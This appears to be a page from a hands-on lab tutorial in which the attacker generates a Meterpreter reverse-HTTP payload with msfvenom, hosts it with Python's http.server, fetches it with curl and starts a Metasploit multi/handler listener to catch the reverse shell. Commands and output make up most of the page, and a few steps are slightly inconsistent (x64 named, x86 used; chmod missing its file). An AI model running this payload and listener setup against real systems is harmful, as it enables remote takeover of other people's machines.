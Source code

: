 ```yaml
---
id: prepare_hack
title: Preparing the hack
sidebar_label: Preparation
---
```


## Creating a payload

In order to hack the system, we first need to generate a payload that will allow us to get a reverse shell on the target host.
Since the host we will be targetting is an amd64 system, we need to use the linux/x64/meterpreter_reverse_http payload.
We also need to configure the payload with the address it will need to connect back to, to establish the reverse shell, in this case kali.container.shipyard.run and port 9999.

We can do this by running `msfvenom` with our payload, the host and port we will be listening on, and the format we want the payload to be in.

```shell
┌──(root💀kali)-[/]
└─$ msfvenom -p linux/x86/meterpreter_reverse_http LHOST=$(dig +short kali.container.shipyard.run) LPORT=9999 -f elf > payload

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 1097244 bytes
Final size of elf file: 1097244 bytes
```

Lets double check that the payload is correctly generated, by making it executable and running it.

```shell
┌──(root💀kali)-[/]
└─$ chmod +x
```

```shell
┌──(root💀kali)-[/]
└─$ ./payload

^C
```

We should not see any output. But no errors mean it will run correctly.  
Exit out of the process with CTRL+C.

## Serving the payload

In order for our target to be able to execute the payload, we need to host it somewhere where it can be downloaded.
An easy way to serve files is by using the Python3 http.server module.

```shell
┌──(root💀kali)-[/]
└─$ python3 -m http.server &> /dev/null &

[1] 1556
```

By default it serves all the files in the current directory on port 8000.
If we wanted to download the payload file somewhere, we can do so by browsing to `http://10.5.0.2:8000/payload`.

```shell
curl http://10.5.0.2:8000/payload -o payload
```

## Start the reverse handler

Now that we have a payload and it is hosted somewhere, we need to start a listener to receive the incoming connections. We will be using meterpreter to do this.

Lets start the metasploit framework console.

```shell
┌──(root💀kali)-[/]
└─$ msfconsole

[*] Starting the Metasploit Framework console.../
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
[% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
[% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
[% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.0.15-dev                          ]
+ -- --=[ 2071 exploits - 1123 auxiliary - 352 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try globally setting it with setg RHOSTS x.x.x.x

msf6 >
```

Now that we are in the Metasploit console, lets verify that everything is running correctly.

```shell
msf6 > db_status

[*] Connected to msf. Connection type: postgresql.
```

Launch the multi/handler, which is a stub that handles exploits launched outside of the framework.

```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
```

Now we need to set some parameters before we start our local listener.  
We need to set the payload we want to use.

```shell
msf6 exploit(multi/handler) > set PAYLOAD linux/x86/meterpreter_reverse_http

PAYLOAD => linux/x86/meterpreter_reverse_http
```

The address we want to have our reverse handler listening on.

```shell
msf6 exploit(multi/handler) > set LHOST 0.0.0.0

LHOST => 0.0.0.0
```

And the port the reverse handler should listen on.

```shell
msf6 exploit(multi/handler) > set LPORT 9999

LPORT => 9999
```

We can then start the reverse handler.

```shell
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://0.0.0.0:9999
```

Now that we have the reverse handler running, we can execute the hack on the remote system.
